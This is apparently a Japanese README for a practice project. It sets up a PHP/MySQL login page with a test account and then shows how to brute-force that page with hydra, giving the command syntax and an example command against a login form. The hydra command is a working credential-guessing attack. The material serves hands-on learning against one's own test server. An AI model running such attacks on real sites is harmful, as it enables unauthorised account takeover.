 # 使用するもの

- php 7.4以上
- mysql
- サーバーはご自由に


# 環境構築

## 専用のデータベースを作成する

ご自身のmysqlで好きな名前のデータベースを作成してください。
この例では、 brute_forceとします

```sql
CREATE DATABASE brute_force;
USE brute_force;
```


## テーブルを作成しデータをいれる

データベースに入って、SQL文でテーブルを作成します。

- ユーザーテーブルを作成

```sql
CREATE TABLE users (id INT(11) AUTO_INCREMENT PRIMARY KEY, email VARCHAR(191),password VARCHAR(191)) engine=innodb default charset=utf8;
```

- ユーザーテーブルにデータをいれる

※パスワードは「password」のハッシュにしている

```sql
INSERT INTO users(email,password) VALUES('test@test.com','$2y$10$UrkWlgzm4TrIFiYEZA9KVeHE3MKlP.uumWK6rxgQ7Q006g0MWTzfi');
```

## ライブラリをインストールする
データベースの情報をソースに直書きするわけにはいかないので、 機密情報をenvファイルにいれています。
そのためのライブラリをインストールします。

```bash
composer install
```

## envファイルを作成する
ルートディレクトリ（index.phpと同じ階層）に「.env」という名前のファイルを作成してください
中身はご自身のデータベース情報をいれてください。

```bash
DB_HOST=localhost
DB_NAME=brute_force
DB_USERNAME=root
DB_PASSWORD=
```

## サーバーを立ち上げてローカル環境で確認する

僕の場合はphpのビルトインサーバーを使用するので下記のコマンドでいけます。
※xamppなど自分が普段使っているものがあればそちらをご使用ください。

```bash
php -S 127.0.0.1:3000
```

これの場合は `http://127.0.0.1:3000` にアクセスして、ログインページが映ればOKです！


【ログイン情報】
メールアドレス: test@test.com
パスワード： password


# hydraでブルートフォース攻撃を行う

macの場合homebrewでインストールできます

```bash
brew install hydra
```

hydraはこのような構文でコマンドを打ちます

```bash
hydra -L {ユーザーIDの辞書ファイルへのパス} -P {パスワードの辞書ファイルへのパス}} {ドメインもしくはIPアドレス} http-post-form '{パス}:{ログインフォームのログインIDのname}=^USER^&{ログインフォームのパスワードのname}=^PASS^:{ログイン失敗時のメッセージ}'
```

なので実際はこのようになります

```bash
hydra -L files/id -P files/password example.com http-post-form '/login.php:email=^USER^&password=^PASS^:メールアドレスもしくはパスワードが異なります'
```

成功した場合は成功したログインIDとパスワードが表示されます。
<img width="1440" alt="スクリーンショット 2021-08-15 17 36 01" src="https://user-images.githubusercontent.com/36908016/129472541-57a3bb1e-ff53-4be3-8dcf-3686aba78391.png">



ちなみにポートは80番を想定しているようなのでローカルでは試せなさそうです。
何かのサーバーにアップしてからお試しください。
僕の場合はngrokを使用して試しています。
